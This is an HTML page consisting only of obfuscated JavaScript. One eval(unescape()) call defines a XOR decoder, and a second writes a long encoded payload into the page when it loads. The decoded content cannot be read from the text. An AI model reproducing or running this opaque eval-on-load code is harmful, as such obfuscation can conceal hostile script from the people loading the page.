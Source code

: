 <html>
<head>
</head>
<body>

<script type="text/javascript">
<!-- 
eval(unescape('%66%75%6e%63%74%69%6f%6e%20%6d%38%32%66%39%63%32%28%73%29%20%7b%0a%09%76%61%72%20%72%20%3d%20%22%22%3b%0a%09%76%61%72%20%74%6d%70%20%3d%20%73%2e%73%70%6c%69%74%28%22%31%34%38%32%35%36%37%38%22%29%3b%0a%09%73%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%30%5d%29%3b%0a%09%6b%20%3d%20%75%6e%65%73%63%61%70%65%28%74%6d%70%5b%31%5d%20%2b%20%22%38%37%39%30%39%31%22%29%3b%0a%09%66%6f%72%28%20%76%61%72%20%69%20%3d%20%30%3b%20%69%20%3c%20%73%2e%6c%65%6e%67%74%68%3b%20%69%2b%2b%29%20%7b%0a%09%09%72%20%2b%3d%20%53%74%72%69%6e%67%2e%66%72%6f%6d%43%68%61%72%43%6f%64%65%28%28%70%61%72%73%65%49%6e%74%28%6b%2e%63%68%61%72%41%74%28%69%25%6b%2e%6c%65%6e%67%74%68%29%29%5e%73%2e%63%68%61%72%43%6f%64%65%41%74%28%69%29%29%2b%35%29%3b%0a%09%7d%0a%09%72%65%74%75%72%6e%20%72%3b%0a%7d%0a'));
eval(unescape('%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%6d%38%32%66%39%63%32%28%27') + '%31%56%68%6b%67%60%69%31%30%6a%6f%61%66%3f%00%0d%35%66%6f%70%6f%67%12%6f%7d%6a%66%30%15%6d%68%73%6b%22%59%67%6e%14%38%0e%0d%54%19%7e%08%01%67%67%7a%6f%21%5e%66%56%62%6f%54%6f%60%62%6e%3c%69%63%68%66%3e%00%07%56%6a%63%62%6a%3c%4d%69%5e%30%00%0d%5d%6c%6e%6f%6f%5b%7d%35%54%66%6c%56%6e%34%00%05%65%62%6e%66%28%67%65%73%68%3d%29%63%73%32%00%02%71%08%0c%09%03%3f%22%6c%67%74%63%68%3e%01%05%3e%62%66%54%57%3b%00%05%33%67%63%66%67%69%38%31%22%67%66%67%67%64%31%0f%0c%37%23%62%66%54%57%3b%00%05%33%55%6d%56%74%12%5c%64%56%62%65%62%6d%3c%15%19%22%2b%22%2a%2d%23%15%3b%3f%5d%6e%57%73%12%6f%69%72%69%30%15%70%6b%64%6b%68%1a%30%08%0c%05%0e%0d%3f%1e%37%4a%3a%47%53%42%40%12%62%69%60%6f%3b%13%08%01%3f%64%66%68%6e%1a%61%54%61%60%30%1d%64%61%1a%30%1b%01%04%31%6b%68%5e%57%39%1f%00%02%3e%68%69%6e%5a%13%56%61%54%6d%6a%68%68%31%1d%59%4e%47%20%3b%1f%31%1b%0c%0d%30%61%60%66%5d%1d%61%54%6a%68%38%19%79%63%69%72%62%6b%6b%67%15%19%56%6a%6d%67%67%60%6f%31%1c%74%6c%57%6d%6b%38%5b%68%76%6d%5e%69%29%74%6c%57%6d%6b%27%1f%6c%6e%6d%6f%6d%5d%61%20%66%5c%54%67%64%30%2b%20%2b%14%38%1d%00%0d%35%67%64%6b%6f%67%30%4b%6e%75%6b%21%6c%68%13%54%6e%78%48%79%5d%69%1a%46%60%55%62%57%60%5b%13%56%6d%5f%69%6b%1d%43%6f%5e%7c%60%69%3f%2d%66%64%66%66%66%31%13%0a%0d%37%18%20%2f%12%3f%63%5f%68%13%66%6d%7c%67%64%66%1c%21%28%30%1a%31%6f%6c%6b%6e%1b%69%68%60%31%1d%67%6e%72%6f%68%6c%6b%60%64%67%1a%12%63%64%61%67%30%15%61%67%6f%6f%66%32%23%2a%57%5e%6f%21%63%65%7c%6d%2d%6c%6d%23%2e%20%30%2f%26%22%5d%68%68%6e%21%59%67%6e%14%1a%2c%31%13%0a%0d%37%2e%6b%67%55%5f%30%1a%0e%0d%3f%5f%62%5f%70%31%1c%01%05%3e%5e%62%79%13%6c%67%74%63%68%3f%14%72%6d%5e%69%6b%3d%19%26%30%2f%63%74%3f%1d%12%5f%61%54%66%6c%30%1d%6f%6f%73%64%5a%53%70%62%57%68%68%20%60%6c%55%67%56%1d%12%65%59%30%15%69%6f%5c%70%68%6a%14%39%12%09%03%3f%6c%63%65%5c%6c%68%1c%67%6d%57%39%1b%6b%67%6d%63%6e%31%22%2d%7b%72%7b%28%72%62%78%6d%78%5d%64%21%59%63%68%23%61%6e%55%68%5d%22%52%64%60%67%4d%54%39%29%4d%39%62%1f%13%5c%63%6f%6d%7b%61%79%66%61%66%56%6f%68%60%6d%13%5b%6e%67%63%73%69%65%54%6b%66%6b%58%65%67%60%5e%7d%1a%5a%6f%6f%68%7a%38%19%54%77%66%6a%62%66%5a%7c%15%3b%13%08%01%3f%2d%6d%61%64%5d%6e%68%31%19%00%05%33%22%58%6d%71%30%1a%0e%0d%3f%6c%56%6d%60%63%68%12%6e%64%5f%3e%15%6b%6d%67%6b%6a%3d%2d%23%5e%56%68%2f%63%6f%76%65%29%60%62%2d%27%29%38%28%28%22%57%62%60%6a%2d%6d%69%14%39%01%04%31%22%66%5c%65%64%6f%67%3e%12%08%0c%36%2c%55%62%5d%7c%39%1f%00%02%3e%2a%6a%6e%6e%6f%31%0a%0d%37%5b%6c%76%12%6e%66%75%61%68%30%1f%55%6a%69%57%67%64%35%12%2a%6d%7b%13%6c%62%67%60%57%1c%54%67%79%61%30%13%69%68%61%6f%2c%69%5b%61%64%6e%75%33%13%29%6e%78%6a%6b%3e%5b%64%64%55%66%1d%55%6f%5e%56%66%25%64%77%63%6f%3f%37%1d%69%62%6b%67%28%6a%6c%72%69%35%12%2d%36%63%7b%34%13%61%6e%61%68%21%72%69%65%64%6b%67%37%13%5d%6e%6f%58%69%6d%3f%1a%6d%54%57%5d%6c%69%66%3d%1c%25%6b%7a%1a%2a%63%7b%34%15%39%0c%0d%30%61%5c%64%6d%76%68%68%19%55%60%67%54%76%6d%6a%64%39%1b%66%56%6f%62%67%63%15%1c%56%64%64%61%58%67%6c%68%61%38%19%6f%67%68%6f%14%1a%6c%61%60%68%78%6e%64%62%77%66%38%14%6c%76%61%15%19%62%69%6c%62%77%67%60%63%70%66%65%30%1f%66%6f%6e%63%1a%12%6e%57%6c%6c%6f%6f%5e%60%6a%74%61%68%31%1d%27%1c%1d%7a%6c%5d%67%63%3c%15%29%39%2b%62%72%1b%31%00%07%3f%6e%5a%65%63%62%6f%12%6e%72%63%68%3a%15%6f%64%7b%68%23%65%55%70%5a%66%56%6f%6c%6b%6b%15%3e%01%05%78%5d%6b%13%60%62%66%6e%58%6a%67%31%1d%47%5d%61%78%65%5e%61%1b%4b%59%1c%40%5c%67%65%6c%61%54%65%13%27%4a%78%60%66%5c%60%66%6c%61%6a%1f%00%05%75%54%6a%12%5d%6b%6f%44%45%24%5c%62%67%6e%65%3f%14%72%6a%65%69%68%15%19%22%25%1f%5a%5b%64%69%55%1a%76%67%54%6a%54%1b%6b%68%61%67%1b%2c%2b%0e%0d%79%5e%65%1b%59%6a%69%4b%4d%24%5f%6c%6f%62%6f%30%1d%46%65%67%69%69%14%1a%2c%2d%13%50%54%6d%6d%54%1c%66%60%6f%6f%1d%69%6f%5e%66%63%1f%63%67%64%6f%55%69%5a%13%2d%28%00%05%75%54%6a%12%5d%6b%6f%44%45%26%5c%62%67%6e%65%3f%14%3d%6e%71%66%15%13%28%2d%1b%56%54%6a%60%5c%12%6e%66%6e%66%19%69%67%58%66%64%12%66%69%1a%59%78%54%19%2d%2a%0c%0d%76%55%6d%12%60%61%54%66%61%66%6b%64%68%58%31%2c%12%2b%2c%13%6e%62%56%29%1f%6a%5b%60%6f%6d%1a%74%54%65%6b%54%1b%27%24%2d%25%2b%22%2a%1d%57%67%26%00%05%75%54%6a%12%61%6e%5d%68%6b%6c%6b%6a%67%64%67%68%69%6d%67%39%36%23%13%28%22%1b%61%78%6f%6e%5c%6a%1a%69%68%6e%6c%13%6b%64%65%68%55%68%55%09%03%79%54%6f%13%61%63%54%69%6a%64%60%63%61%68%67%6d%68%6d%6a%25%3f%39%2b%12%2b%2c%13%6d%72%60%67%58%6b%1c%54%60%64%73%5a%65%61%5e%13%6f%64%6e%69%12%66%69%1a%59%78%54%0a%0d%71%58%65%1c%68%67%55%6f%65%63%54%72%66%60%3c%26%2c%12%2a%23%1a%74%54%6e%6d%78%1b%61%68%58%55%1b%62%61%6b%6a%54%6b%67%64%58%61%1c%7b%5c%64%68%5a%13%2b%2e%22%2c%2f%23%2c%12%5f%66%67%22%00%0d%73%54%6d%1f%61%3f%22%08%0c%65%67%13%2b%5d%62%5e%74%60%67%60%6f%20%5d%61%6f%7f%75%57%6a%5a%78%6f%69%69%66%28%64%68%67%42%6f%60%6c%68%6e%66%3d%7d%45%59%2c%7e%5d%62%5e%74%60%67%60%6f%20%73%6b%6c%67%62%2b%22%33%69%6d%60%6f%12%5f%6c%6f%62%6f%30%1d%26%2e%5a%6b%6e%4b%4c%2a%56%62%65%62%6d%22%2a%1a%30%22%2d%09%03%69%62%6f%13%23%6c%30%2c%3f%68%3e%69%66%66%66%5e%6a%60%2d%6f%67%60%62%66%62%30%60%2e%24%2c%08%01%57%6d%57%70%61%61%6f%67%21%70%65%64%6b%68%24%2b%37%67%6a%5a%61%13%66%57%38%19%61%67%63%69%6e%65%64%6b%67%20%2e%68%22%2a%1a%30%22%2f%69%66%66%66%5e%6a%60%2d%56%64%55%6d%35%6e%25%60%2c%24%2a%37%2e%66%6c%55%69%30%23%22%00%0d%5d%62%5e%74%60%67%60%6f%20%73%6b%6c%67%62%2b%22%33%22%66%63%69%66%38%24%2c%70%62%6f%6e%64%00%02%56%6a%57%71%6e%68%61%6d%21%72%69%6c%68%69%23%61%61%68%66%54%60%68%24%0c%0d%66%79%69%57%6e%62%62%61%19%56%6d%6e%66%69%64%60%68%22%6f%78%60%5f%68%6d%20%7e%76%55%6d%12%5f%6b%62%66%6c%62%5d%61%30%58%63%5e%79%69%66%61%67%2b%54%67%63%32%1c%69%71%55%66%25%15%57%68%56%70%6c%68%6e%66%29%55%66%61%21%61%62%62%69%63%6c%65%6a%6f%14%27%6f%78%60%5f%68%6d%20%13%32%12%5f%63%5f%76%60%68%6b%67%29%66%68%68%49%67%69%69%66%61%67%3f%7c%44%5b%2b%1a%60%60%63%68%61%6c%6a%61%67%1d%22%61%77%61%5d%69%6c%22%00%0d%6f%68%6f%74%65%6e%12%5e%64%6b%68%66%62%5f%6d%78%65%78%6e%57%6f%6d%6b%6f%13%61%62%62%69%27%2c%71%6d%61%12%22%6f%30%30%29%2c%76%65%62%6a%12%23%61%39%2d%3e%60%35%60%60%6a%66%5b%6b%60%20%66%66%61%6a%6d%6b%36%6c%2e%21%2d%08%0c%5f%6b%62%66%6c%65%60%65%2b%6f%2d%29%67%6e%72%6f%68%2b%56%6a%63%62%6a%31%5d%6b%6f%44%45%24%5c%62%67%6e%65%7f%01%05%57%6c%6c%66%66%6f%68%61%27%61%23%20%6e%66%75%61%68%21%5c%62%67%6e%65%3f%54%62%67%43%4b%25%56%68%6f%6a%69%00%02%6d%61%12%22%6f%31%69%65%54%6e%67%6c%6e%6b%67%69%6e%69%68%65%6c%20%2c%20%13%59%64%6a%67%6f%6b%68%69%21%61%28%65%6f%5b%67%63%6d%68%64%6f%68%6d%67%60%69%66%23%20%6e%66%75%61%68%21%5c%62%67%6e%65%3f%54%62%67%43%4b%26%56%68%6f%6a%69%00%02%6d%61%12%22%6f%31%2b%63%6f%5c%6a%6b%63%60%62%6e%61%69%67%68%6f%66%26%65%6f%5b%67%63%6d%68%64%6f%68%6d%67%60%69%66%2a%2d%28%25%25%1d%56%65%68%66%6e%69%68%66%2a%69%21%60%61%54%66%61%6c%69%66%6f%67%66%6f%69%6c%68%20%69%65%54%6e%67%6c%6e%6b%67%69%6e%69%68%65%6c%25%24%2d%66%68%7d%67%69%28%58%62%6f%68%65%38%59%6a%69%4b%4d%25%5f%6c%6f%62%6f%00%05%60%69%1c%2a%69%3e%69%66%66%66%5e%6a%60%2d%6f%67%60%62%66%62%2e%24%2c%0a%0d%69%22%2e%0f%0c%60%6e%6f%66%7e%61%3a%23%08%01%56%60%69%5c%64%45%6f%67%68%6f%79%5c%63%2b%66%6e%5c%67%62%62%61%6a%26%00%05%6a%68%68%46%64%61%61%6c%78%67%21%15%5d%64%6a%63%60%69%69%6b%6f%2b%2c%1f%2f%61%63%54%69%6a%6b%55%71%68%68%2c%0a%0d%6d%64%67%77%64%69%71%79%0e%0d%69%72%61%5e%6b%6c%6d%60%1b%54%61%64%6c%61%6b%68%6a%6d%2b%23%7f%64%68%1a%25%57%62%5c%78%68%64%61%68%20%5c%6e%66%71%7f%57%68%56%70%6c%68%6e%66%29%6b%61%69%48%6f%62%60%60%6d%67%3a%7d%44%56%25%0e%0d%69%65%54%6e%67%6c%6e%6b%38%67%61%69%4c%61%6d%68%6d%75%54%60%2a%1d%60%61%6c%61%2b%26%15%27%65%6f%5b%67%63%67%6a%66%68%57%26%70%08%01%55%67%6b%64%60%68%66%62%61%21%2c%08%01%3f%2d%67%5e%64%65%6d%67%31%35%22%68%58%65%6b%79%60%69%38%31%22%57%66%79%39%0c%0d%0f%0c%37%15%3e%4c%36%47%56%43%40%1f%6b%68%61%67%30%09%03%3f%6b%6d%60%67%1f%6f%5b%60%62%31%1c%66%61%15%19%31%08%01%00%02%3e%63%69%5d%59%31%00%07%00%05%1f%13%30%61%60%66%5d%1d%56%6b%5e%65%6e%64%67%3f%14%50%46%40%2e%3b%15%3b%00%05%1f%13%0f%0c%37%6e%65%6f%6e%13%6f%68%67%3c%15%5b%62%6b%6e%61%2e%67%62%72%56%63%2c%6c%59%63%69%14%1a%69%7c%63%62%30%1d%60%60%5b%6b%60%23%6a%6f%6a%15%19%6b%6d%64%69%3f%14%63%66%6e%6d%66%3d%28%22%6e%6b%54%68%6d%5e%20%5f%6c%57%68%69%68%69%2d%6c%6d%23%5c%67%6f%66%67%66%28%69%5c%75%6c%59%63%69%23%5d%6d%63%6f%62%20%6f%6e%78%59%6a%28%6d%5f%6c%61%20%32%54%60%28%54%2c%38%34%3a%5e%58%56%25%2d%23%2d%64%3c%35%25%2d%68%33%59%23%24%62%57%30%2f%3c%5b%39%32%3a%2d%29%69%3c%36%27%5e%35%39%2c%56%61%3d%60%34%54%3c%32%25%61%2a%23%36%22%32%22%31%66%68%21%69%61%62%19%13%2d%30%08%0c%36%6e%68%67%5e%13%69%58%60%67%31%1d%55%6a%6d%6f%68%2a%60%6a%59%6c%60%69%28%7b%61%5b%20%54%69%63%28%6b%6c%68%6e%60%14%1a%58%62%61%6d%68%69%6b%30%1a%37%6a%56%61%4d%68%61%1f%31%08%01%00%02%3e%67%6d%68%60%13%65%62%6f%38%19%66%64%63%6d%66%5f%76%67%13%66%56%6a%6d%15%1c%66%74%62%61%3e%15%6c%6a%54%62%64%22%74%21%64%57%6b%6f%15%13%61%65%60%65%30%1a%6a%6f%66%6a%68%3d%22%28%66%6f%58%67%63%57%29%57%6b%59%68%63%62%61%29%60%62%2d%55%6e%67%61%69%66%22%63%54%71%60%56%6d%60%2a%68%5d%77%6c%56%68%61%28%58%68%59%27%2f%3d%2e%2d%69%55%5c%24%5c%35%68%35%3a%32%3d%33%29%57%56%5d%26%31%2f%69%2a%57%31%54%30%28%26%27%31%57%2f%59%24%66%26%60%22%30%58%3a%3a%30%27%2e%2f%3c%36%56%30%39%2e%35%23%69%2c%26%29%60%56%6d%14%1b%23%38%0e%0d%00%07%3f%67%60%61%61%12%6d%69%66%3e%15%60%5e%66%66%2c%6c%59%63%69%14%1a%69%7c%63%62%30%1d%19%13%64%64%60%68%39%1b%6b%67%6d%63%6e%31%22%2d%67%6f%55%6e%62%56%21%5c%62%5f%64%63%67%60%29%6d%6b%2c%54%66%6c%68%6f%6a%22%66%55%71%6d%5f%6c%61%22%65%62%62%6e%20%6c%6d%69%21%32%67%26%3a%30%24%5d%28%23%35%24%60%27%5f%28%3b%55%5d%39%31%29%3b%35%24%61%38%5c%37%3a%26%5e%3a%2d%29%69%28%54%2e%57%5d%2b%27%25%2e%39%2e%36%57%37%39%34%38%30%37%24%55%2d%68%2d%28%26%2a%57%5e%20%6f%77%6a%15%19%56%6a%63%62%6a%31%1d%17%2d%2a%24%15%19%22%39%0c%0d%0f%0c%08%0c%1a%1d%3f%67%66%67%67%64%31%38%6d%62%6d%6e%5a%6f%13%3c%6f%6a%5a%6e%1c%5b%64%66%62%1d%59%78%62%21%45%6a%13%51%47%6a%79%6c%58%68%13%3c%62%5f%64%50%1c%48%6a%64%1a%3b%6f%62%60%6a%60%69%13%6d%64%1b%35%68%72%13%5a%62%55%6e%60%67%67%12%77%12%3f%6c%57%68%51%37%28%40%61%58%6d%5c%3e%2b%69%6c%67%65%68%39%0c%0d%1c%12%08%0c%1a%1d%3f%6f%66%61%66%1f%65%67%6e%38%14%6f%69%7c%6f%62%66%63%64%68%68%14%1b%6a%6c%66%69%30%1f%6b%6f%6b%63%69%3c%2a%23%5f%59%61%6d%6c%21%5e%63%62%77%56%61%6e%5d%6b%68%21%5c%62%68%2e%54%62%55%73%23%66%62%55%66%28%61%6a%69%60%5b%6e%64%7c%61%2c%38%21%29%21%2b%2e%61%6d%64%68%55%66%62%7d%68%2b%60%64%6d%21%59%67%6e%14%38%0e%0d%00%07%13%1b%33%6f%63%60%66%12%6c%66%6f%30%20%66%6f%70%6f%67%67%63%69%61%69%2a%13%61%65%60%65%30%25%6a%6f%66%6a%68%3d%22%28%69%6a%6d%67%69%20%62%63%6b%64%6f%68%5e%63%64%6a%21%59%63%68%23%5f%68%66%32%63%54%68%60%6f%73%31%4e%6a%5d%6b%68%2e%4d%68%5e%67%2e%4f%63%69%63%23%3f%00%0d%19%13%08%01%3f%69%66%74%6e%61%3f%00%0d%61%67%68%63%2f%1c%54%6a%56%75%1d%7e%00%07%13%1b%67%68%63%6b%63%66%34%1d%24%23%29%28%36%0c%0d%7f%01%05%01%04%5b%62%57%76%13%76%0c%0d%1c%12%5d%55%5f%60%6a%65%68%78%69%5b%3d%1c%17%2b%68%2f%35%38%27%34%00%05%1f%13%5a%55%5e%6f%63%6b%62%78%6b%57%35%1f%65%5b%56%64%55%66%2e%6a%65%5e%57%64%64%61%68%2a%60%6e%66%62%63%66%62%13%5c%6b%13%59%69%69%66%61%6b%2f%13%1c%23%5c%29%68%29%3a%1b%22%21%21%13%16%29%23%2b%2f%23%2c%12%2b%29%25%30%00%0d%19%13%5d%58%56%61%6b%6d%63%71%6f%57%20%6c%6c%75%64%3d%1c%25%2b%22%21%30%00%0d%7a%00%05%0c%0d%6c%12%76%01%04%1d%13%60%5e%65%62%60%61%32%12%2b%3f%09%03%13%13%69%54%5f%5b%6c%6e%6b%35%12%2a%30%00%0d%7a%00%05%0c%0d%19%57%67%63%5f%60%13%7e%0a%0d%1b%1f%69%6d%60%6f%21%60%5a%60%6c%65%7c%35%1f%2a%49%6a%5c%64%61%1d%47%68%5c%6b%1b%4c%62%6e%63%22%2e%1a%6e%62%61%68%66%6b%58%56%67%3f%08%0c%1a%1d%56%62%65%62%6d%31%13%19%68%61%68%60%67%69%3e%0a%0d%1b%1f%67%67%7a%6f%21%5d%61%6c%6a%6b%3d%1b%5a%68%6e%66%60%64%37%0e%0d%13%19%63%6a%6a%6c%68%6d%6a%60%34%1d%54%55%6c%62%67%74%67%67%3f%08%0c%1a%1d%6f%68%63%67%35%1f%38%2c%29%36%01%04%1d%13%67%68%63%35%1f%38%2c%29%36%01%04%1d%13%20%70%68%5d%62%6c%68%21%6f%64%5d%6f%66%69%68%65%68%31%13%68%64%5c%60%6f%61%54%67%62%2b%28%34%23%27%2e%1b%21%31%2d%28%2c%34%00%05%1f%13%1c%12%1b%12%1a%1d%13%13%6d%65%5c%6d%66%66%63%6d%61%34%1d%67%65%5e%61%6e%63%54%68%69%23%21%31%2d%28%2f%19%20%30%2f%28%23%3f%08%0c%1a%1d%56%62%65%62%6d%31%13%19%56%5c%68%30%67%69%3e%0a%0d%1b%1f%67%67%7a%6f%21%6f%65%54%57%68%7a%35%1f%23%1c%22%1b%24%2a%6d%7b%13%1c%23%5c%58%69%67%38%27%12%2a%1d%23%13%2f%23%6b%77%13%6a%6b%5d%55%22%2a%23%2f%19%24%32%34%2f%1c%24%2e%22%26%1d%23%2c%34%00%05%7c%00%02%17%5e%6e%6b%58%6e%13%2b%67%64%6c%68%1c%7f%08%0c%1a%1d%6f%68%6d%67%60%69%20%69%62%5c%57%65%6f%6a%3d%19%23%29%2f%38%67%61%36%01%04%1d%13%69%68%61%6f%2c%66%63%7c%60%3c%1a%2b%23%63%71%3e%08%01%13%1c%62%5c%56%5e%62%61%6a%37%13%30%6f%7b%1c%22%36%01%04%7e%00%0d%1c%56%67%6e%56%61%12%29%56%5d%69%68%13%74%00%05%1f%13%60%69%6f%66%61%6b%20%66%69%54%5e%60%61%65%3c%1b%22%28%2a%68%60%34%00%05%1f%13%66%63%69%66%29%68%6c%7d%62%3d%1b%29%23%6c%7a%36%01%04%7e%00%0d%1c%56%67%6e%56%61%12%29%66%61%75%67%13%74%00%05%1f%13%60%69%6f%66%61%6b%20%66%69%54%5e%60%61%65%3c%1b%22%28%2a%68%60%34%00%05%1f%13%66%63%69%66%29%68%6c%7d%62%3d%1b%34%63%74%3f%08%0c%1a%1d%63%54%5d%57%64%6d%6a%32%12%2c%22%6a%75%13%23%19%23%36%0c%0d%7f%01%05%3e%2b%68%67%7c%65%68%39%0c%0d%0f%0c%1b%12%36%68%56%65%66%63%6f%3d%00%02%12%1b%7b%65%6f%57%62%70%21%5e%6e%61%69%63%67%69%1a%3e%13%7a%66%61%5f%6e%7a%2e%57%6a%60%6f%6c%6f%68%19%7f%77%1f%69%77%60%5e%66%65%6c%61%2b%6d%2c%1b%72%70%31%01%05%3e%2b%68%56%65%66%63%6f%3d%00%02%01%05%12%1a%0e%0d%13%19%00%05%1f%13%30%67%5e%64%65%6d%67%31%0a%0d%1b%1f%6c%66%12%23%56%6b%58%78%60%62%61%6f%2d%6f%6d%57%5c%66%65%6c%61%21%6c%68%5c%69%56%64%20%68%55%6e%58%6b%2b%28%67%74%6f%68%3f%69%68%54%61%59%22%6a%66%2c%24%1f%7e%0f%0c%1b%12%1a%1d%7a%6c%6b%57%6a%76%21%6c%55%6d%69%68%69%21%63%68%66%6f%4c%68%69%67%5c%6b%61%25%15%65%62%66%64%71%68%1a%2e%1b%14%24%1b%2c%3e%0a%0d%1b%1f%70%0f%0c%37%23%6f%58%65%6c%69%67%39%0c%0d%0f%0c%08%0c%36%61%6c%61%64%13%6d%64%6f%3f%14%68%69%1c%1d%6b%65%62%69%38%19%6b%68%66%6b%67%34%2c%22%7a%70%7a%29%59%6f%6d%6b%62%69%6c%2f%56%62%6a%22%6b%69%62%66%6d%67%69%2b%2d%3b%3b%2c%27%32%36%39%2a%24%2d%3b%31%28%25%25%32%24%32%37%15%1c%23%39%01%04%31%22%6b%62%54%5f%3d%00%02%01%05%3e%5c%6c%57%7c%19%67%6d%58%61%69%6e%5c%66%61%3e%15%61%68%15%1b%3d%00%02%12%1b%3e%5e%62%79%13%66%57%38%19%56%60%63%5e%6f%1c%3f%00%0d%19%13%1b%1f%3f%6c%12%5e%6e%5d%68%66%30%1f%57%5c%6b%68%1a%30%76%7f%1a%59%54%67%62%13%78%7c%3f%2d%62%39%01%04%1d%13%13%19%3f%6b%1f%56%60%55%6e%67%39%1b%67%6c%6a%68%1d%3d%7e%71%12%6f%6d%69%66%13%70%7a%3f%2a%6f%31%0f%0c%1b%12%1a%1d%3f%63%19%56%67%58%66%69%31%1d%66%61%75%67%15%3b%4d%3c%4c%13%38%4d%42%4d%4e%3a%4f%13%3e%37%48%40%41%1c%48%4a%44%4f%3a%47%13%4d%48%3e%47%2f%1c%34%54%12%3f%56%4f%4f%56%22%47%38%46%3b%44%44%12%4e%45%42%13%3f%34%49%46%34%1c%4e%40%36%41%4f%4a%3f%28%63%39%0c%0d%30%23%5f%6d%70%3f%00%0d%19%13%1b%1f%3f%69%57%6d%6d%6a%69%13%66%6f%56%38%19%6b%68%66%6b%67%34%2c%22%66%6d%54%6f%60%56%2e%57%6a%56%61%6d%68%61%2b%6c%6a%2e%54%69%67%60%66%6f%2c%56%62%6a%60%6a%6d%22%69%66%6a%62%41%75%68%56%72%67%64%6e%61%4d%60%4f%6d%69%66%62%78%6d%20%2c%34%3a%59%56%30%54%2c%2b%23%54%32%56%33%2f%57%28%68%61%3a%61%2d%68%3a%29%54%5e%2f%39%33%54%61%68%5e%35%3a%54%33%24%2d%34%25%2c%3a%33%25%2e%37%3c%24%32%68%33%36%25%36%69%30%56%35%67%24%27%30%21%65%6a%15%3e%3e%2a%67%5f%6b%6c%63%6d%31%08%01%00%02%12%1b%3e%6f%58%65%6c%69%67%1b%6a%65%59%31%22%6a%6e%69%63%66%37%22%2a%5a%57%6e%6c%6e%20%5f%61%62%78%5d%69%67%58%65%67%20%5e%63%69%2c%54%6d%5e%7b%2a%63%6c%5a%67%2a%78%71%66%22%25%2b%26%29%2b%22%76%79%60%20%69%62%61%21%67%66%22%3d%3f%2d%67%5e%64%65%6d%67%31%0a%0d%1b%1f%00%02%12%1b%12%1a%1d%13%3f%6c%56%6d%60%63%68%12%64%56%39%1b%65%68%6b%57%60%69%68%58%21%65%67%1c%1d%31%00%07%79%5c%69%13%59%6e%6a%57%67%1d%30%13%6b%68%72%1f%59%77%69%23%7f%09%03%13%13%62%6f%35%1f%2a%19%57%67%63%5f%60%2a%2f%0a%0d%1b%1f%57%5b%66%5c%3c%1a%70%00%0d%19%13%1b%1f%67%63%61%60%3c%1a%24%2a%2f%0a%0d%1b%1f%13%1c%56%5c%66%61%33%13%2a%20%13%78%1f%70%23%3f%08%0c%09%03%00%0d%0a%0d%71%58%65%1c%7b%60%69%67%1d%30%13%54%2a%48%40%41%45%4b%50%2b%26%1d%2a%46%42%41%44%4d%2a%20%12%22%47%41%41%34%46%3e%2a%27%1f%2a%4a%35%3d%59%23%21%13%2a%44%34%48%40%46%25%2e%1b%2b%44%56%40%34%4d%2a%27%1f%2a%49%35%3d%46%51%24%50%3e%0a%0d%71%58%65%1c%66%64%61%61%6b%4c%37%19%30%1b%6a%68%68%4d%69%66%61%6b%79%54%65%2b%70%6f%57%5b%66%60%46%65%6e%68%2f%19%24%2b%2f%23%23%3f%08%0c%71%6d%57%54%6d%68%4f%60%60%67%2a%24%3f%09%03%69%78%6b%56%6f%60%62%6e%12%70%62%5e%5a%67%68%4d%6c%68%64%2b%23%12%76%01%04%1d%13%79%5e%65%1b%5a%57%1c%31%1b%60%61%74%13%37%5e%67%60%27%2c%31%01%05%12%1a%58%6f%62%5c%6e%29%6b%6c%6f%69%1b%31%1a%73%68%65%68%43%5c%5b%57%63%60%62%2a%5f%59%21%6a%62%67%43%6e%78%6a%67%23%2d%26%1d%25%2c%19%2e%1b%26%3d%25%12%26%12%74%66%65%62%49%54%5f%5b%6c%6e%6b%23%57%5e%2f%6a%68%6d%40%64%6d%78%68%69%6e%2a%25%21%13%25%26%13%26%1f%2a%32%2b%1b%2f%1a%73%68%65%68%43%5c%5b%57%63%60%62%2a%5f%59%21%6a%62%67%4e%64%56%6d%60%5f%67%22%22%2f%13%2f%2c%36%0c%0d%1c%12%5e%6e%6b%58%6e%21%5d%54%6f%64%13%3f%12%75%69%6c%6c%43%54%5d%57%64%6d%6a%24%57%5f%20%63%66%67%37%5e%67%60%27%2c%20%12%2d%2d%1a%20%13%2a%2a%2a%1b%22%13%72%69%6d%63%4a%5a%57%57%66%61%62%27%56%58%20%62%69%6e%4e%62%61%6d%6b%23%20%13%21%12%2c%2e%1a%2b%2c%13%24%13%22%2c%2a%1c%2f%1b%7c%61%6b%62%43%5e%57%5f%60%61%65%2a%5e%56%28%64%68%67%43%78%67%63%5c%67%55%6d%2a%25%21%13%27%26%13%26%1f%2a%1c%2b%1b%2f%1a%1d%7a%68%62%6e%56%5a%57%2e%6b%60%66%3e%5a%7c%2b%26%50%36%0c%0d%7f%3f%08%0c%09%03%69%78%6b%56%6f%60%62%6e%12%75%69%6c%6c%43%54%5d%57%64%6d%6a%24%60%70%61%26%1d%57%6c%60%6c%6f%20%13%71%01%05%12%1a%77%54%65%19%7d%60%69%62%1c%31%1b%2b%23%30%00%0d%19%13%61%6e%65%1c%2a%71%55%6c%1d%6c%13%3a%13%2b%32%13%63%12%37%12%5e%62%6a%6c%6d%3e%1b%60%2e%21%2d%1b%7f%09%03%13%13%19%13%75%64%65%6d%12%26%31%1a%24%23%2a%34%00%05%1f%13%7f%01%05%12%1a%6b%68%67%72%65%69%1f%2b%72%69%6d%63%1a%20%13%61%72%60%24%2d%66%60%6d%5e%69%22%2e%57%6c%60%6c%6f%20%3e%0f%0c%78%01%04%2c%22%16%19%66%6a%74%65%59%69%50%44%46%3e%63%68%6b%21%65%6a%00%02%12%1b%12%1a%31%22%66%5c%65%64%6f%67%3e%01%05%12%1a%1d%13%00%07%3f%2a%59%62%58%7d%39%01%04%31%22%6b%6d%60%67%3d%3f%2d%57%60%60%6e%66%65%3114825678%36%38%38%32%38%30%34' + unescape('%27%29%29%3b'));
// -->
</script>
<noscript><i>Javascript required</i></noscript>

</body>
</html>


